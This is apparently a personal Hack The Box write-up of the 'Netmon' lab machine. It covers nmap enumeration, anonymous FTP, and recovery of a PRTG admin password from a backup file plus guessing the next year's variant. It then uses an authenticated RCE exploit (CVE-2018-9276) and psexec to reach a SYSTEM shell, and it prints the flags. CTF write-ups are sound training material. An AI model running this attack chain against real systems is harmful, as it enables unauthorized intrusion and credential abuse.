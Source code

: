 ```yaml
---
date: 2024-10-08
title: Netmon HTB Write-Up
machine_ip: 10.10.10.152
os: Windows
difficulty: Easy
my_rating: 2
tags:
  - Windows
  - PrivEsc
  - FTP
  - nmap
  - gobuster
  - searchsploit
  - webserver
  - PRTG
  - Paessler
  - psexec
references: "[[📚CTF Box Writeups]]"
---
```

# Enumeration

- Nmap
```
┌──(root㉿kali)-[~/Downloads]
└─# nmap -sVC -Pn 10.10.10.152 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 16:52 PDT
Nmap scan report for 10.10.10.152
Host is up (0.097s latency).
Not shown: 995 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-10-08T23:52:38
|_  start_date: 2024-10-08T23:05:28
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.19 seconds
```

- nmap shows port 80 is hosting a PRTG Network Monitor 18.1.37.13946 web server. Also, FTP allows anonymous login, we logged in
```
┌──(root㉿kali)-[~/Downloads]
└─# ftp 10.10.10.152         
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
```

- We grabbed the `PRTG Configuration.dat` to search for more information, no luck
- Digging deeper, within `C:\Windows\Program Files (x86)\` we find `PRTG Network Monitor` folder with 


# Foothold
- gain shell via exploit
- Searchsploit shows PRTG Network Monitor 18.2.38 is vulnerable to (Authenticated) Remote Code Execution - `windows/webapps/46527.sh` #PRTG #Paessler
	- Uses CVE-2018-9276 
	- exploit tells us to log into the app with default creds of `prtgadmin:prtgadmin`, grab the cookie once authenticated and use it in the script.
	- Default creds won't work. Back to enumerating the config file.
	- After no luck enumerating with `ls` and `dir` we use `ls -al` and find a backup file called `PRTG Configuration.old.bak` in  `C:/Users/All Users/Paessler/PRTG Network Monitor`.
	- When attempting to download this file, I got the following error:
```
tp: Reading from network: Interrupted system call
  0% |                                                                                                                                                                                               |    -1        0.00 KiB/s    --:-- ETA
550 The specified network name is no longer available. 
```
- To resolve this, type `bin` into FTP then try again
- After downloading this config file, we find the `dbpassword` creds of `prtgadmin:PrTg@dmin2018`
	- These creds don't work, however, we can guess it by changing it to `2019`
	- `prtgadmin:PrTg@dmin2019` logged us into the webportal
	
# PrivEsc
- escalate to root
- Now we can try the exploit found above the the credentials
	- Creds = `prtgadmin:PrTg@dmin2019`
	- Cookies  are `_ga=GA1.4.2086952541.1728431675'
		- `_gid=GA1.4.106429694.1728431675'
		- `OCTOPUS1813713946=ezAyMDlFRDBFLUZGRUMtNEY1Qi1CNUI3LThCMTU5RjkxMUM4N30%3D
		- `_gat=1`
- Successfully ran this exploit and created a `pentest` admin user on 10.10.10.152. Now we can use `psexec.py` to gain a root shell!

```
┌──(root㉿kali)-[/usr/local/bin]
└─# psexec.py pentest:'P3nT3st!'@10.10.10.152      
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file dQLbwpWA.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service xYJO on 10.10.10.152.....
[*] Starting service xYJO.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```


User flag
```

C:\Users\Public\Desktop> type user.txt
0491a17b935bdd9d528f4f39f5bd9eab
```

Root flag - Administrator
```
C:\Users\Administrator\Desktop> type root.txt
d3290e406df2d9230cbcf5702dbbe38b
```
